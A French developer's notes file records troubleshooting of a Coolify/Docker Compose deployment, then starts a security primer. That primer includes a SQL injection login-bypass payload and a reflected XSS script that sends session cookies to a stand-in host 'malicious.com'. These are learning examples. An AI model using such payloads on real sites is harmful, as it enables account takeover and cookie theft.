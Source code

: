 # deploiement :

### historique des actions et pbm rencontrés

- lancement du deploiement sur coolify à partir du repo github publique
- **erreur :**
	- npm n'arrive pas à acceder aux package.json
	- connexion au server via ssh pour identifier le probleme
	- le dossier du projet n'est que partiellement importé de github
	- activation de l'option "Preserve Repository During Deployment" dans coolify
- deploiement à nouveau
- **erreur :**
	- conflits dans les fichiers importés
	- resolus manuellement avec ssh pour l'instant
- le deploiement va plus loin
- **erreur :**
	- imports ne fonctionnent pas à cause d'une erreur dans le nom d'un fichier icone
- resoud le pbm, push sur github, redeploi
- ca marche ! -> le site est en ligne, sur l'url generee par coolify
- **erreur :**
	- la ddb n'envoit pas ses infos
	- ddb ne trouve le dossier `pg_notify`
	- pbm vient du volume de la ddb "psql" qui n'est pas vide donc pas reinstallé
	- il faudra l'enlever de github, pour l'instant je le vide
- ca marche !
- **erreur :**
	- le site s'affiche, mais pas les infos de la ddb
	- pbm avec le nom de domaine : les variables .env ne sont pas remplies
	- pour que les variables soient prises en compte il faut rebuild react
- **erreur :**
	- npm run build ne marche pas
	- pbm vient de la ligne "main: index.js" : parcel ne sait pas quoi en faire, je l'enleve
	- build fonctionne, pbms de .env et url resolu momentanement
- **erreur :**
	- aucune info ne revient du back


### liste des problemes et de leur resolution

- resoudre les pbm que recontre coolify pour le deploiement :
	1. il commence par creer des dossier ./BACK/db/migration.sql/ et ./BACK/db/seeding.sql/ au lieu de fichiers, parce qu'il les voit dans le docker-compose.yml en tant que "bind mount files" et il croit que ce sont des volumes
	2. puis il ne parvient pas a les remplacer par les fichiers quand il synchronise avec github
	3. ensuite il n'arrive pas toujours a creer la base de donnee, parce qu'il a copié le dossier psql depuis github donc il saute l'etape de recreer la base de donnee, et il lui manque des choses
	4. à ce stade, le site s'affiche, mais pas toujours sur le meme port, c'est encore mysterieux
	5. ensuite il n'a pas les variables d'environnement pour les fetchs
	6. à un moment il y a le pbm de la base de donnee qui doit etre cree en 2 etapes en de-commentant des lignes, je ne sais pas encore comment resoudre ca
	7. et après il y a encore des problemes non-identifiés

#### pbm 1 et 2 :

- dans le docker-compose.yml, au lieu d'avoir 2 fichier "bind mount", on va mettre un volume qui contient les 2 fichiers :
	- avant :
	```
  volumes:
    - ./BACK/db/migration.sql:/docker-entrypoint-initdb.d/create_tables.sql 
    - ./BACK/db/seeding.sql:/docker-entrypoint-initdb.d/seeding.sql
	```
	- apres :
	```
  volumes:
    - ./BACK/db/:/docker-entrypoint-initdb.d/
	```
- aussi on change le nom de `migration.sql` pour `create_tables.sql` puisqu'il doit s'appeller comme ca dans le container
- ok

#### pbm 3 :

- on a tout simplement pas besoin de synchroniser le dossier psql dans github
	- donc on l'enleve de github : `git rm -r psql/`
	- et on le met dans .gitignore : `psql/`
- la base de donnee se recreer correctement si on deploi
- ok

#### pbm 4 : ?

#### pbm 5 :

- pour l'instant chaque dossier FRONT et BACK possede son fichier .env avec ses variables d'environnements
- mais coolify ne nous laisse pas creer des variables d'environnement localisées dans tel ou tel fichier (à ma connaissance)
- donc on va changer la structure du projet pour que toutes le variables d'environnement soient declarées dans le .env à la racine du projet :
	- on declare toutes la variables dans le .env à la racine du projet
	- dans le fichier docker-compose.yml on injecte les bonnes variables dans les bons containers :
		- avant :
		```
		# dans docker-compose :

		services:
			bdd:
				environment:
					POSTGRES_DB: "skillswap"

			front:
				# pas d'environnement
		```
		- apres :
		```
		# dans .env à la racine du projet :

		POSTGRES_DB=skillswap
		REACT_APP_URL=camille.cloud
		```
		```
		# dans docker-compose :

		services:
			bdd:
				environment:
					POSTGRES_DB: ${POSTGRES_DB}

			front:
				environment:
					REACT_APP_URL: ${REACT_APP_URL}
		```
- maintenant les variables d'environnements sont dans tout l'environnement de chaque container, au lieu d'etre dans un fichier
- il ne reste plus qu'à les rentrer dans coolify avant de deployer
- ok


# securité :

## types de failles de securité :

1. **injection SQL**
   injecter une requete sql "malveillante", qui fait fonctionner la base de donnee d'une maniere imprevue
	 ex de requete avec 2 champs de formulaire pour se connecter 'username' et 'password' :
	    "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
			si on remplis uniquement le 'username' avec [' OR '1'='1], ca donne cette requete :
			SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
			1=1 est toujours vraie donc on peut se connecter avec n'importe username sans le mot de passe
2. **xss**
   injecter du code "malveillant" sur une page vue par un autre utilisateur, par exemple pour recuperer ses cookies de session
   ex d'attaque xss sur un site web qui permet de faire une recherche :
	    1. le site possede une page avec un champ de recherche, on peut chercher "babar" par exemple :
			   `recherche: [babar]`
			2. lorsqu'on valide la recherche, elle est envoyé avec la methode GET au back :
			   `https://exemple.com/search?query=babar`
			3. le site affiche ensuite la recherche en plus des resultats :
				 `les resultats pour votre recherche "babar" sont etc...`
			4. donc si on envoit cette url à quelqu'un, il va voir les resultats s'afficher :
			   `https://exemple.com/search?query=babar`
				 `les resultats pour votre recherche "babar" sont etc...`
			5. au lieu d'envoyer "babar" dans le champs de recherche, on peut y mettre un script :
			   [<script>document.location='http://malicious.com/steal?cookie='+document.cookie</script>]
				 les resultats pour votre recherche <script>...</script>
				 -> le script est executé
				 en l'occurence, il vole les cookies de session de la personne, on peut donc ensuite se connecter a son compte
3. **csrf**
   
4. **brute force**
   
5. **man in the middle**
   
6. **ddos**
   
7. **idor**
   
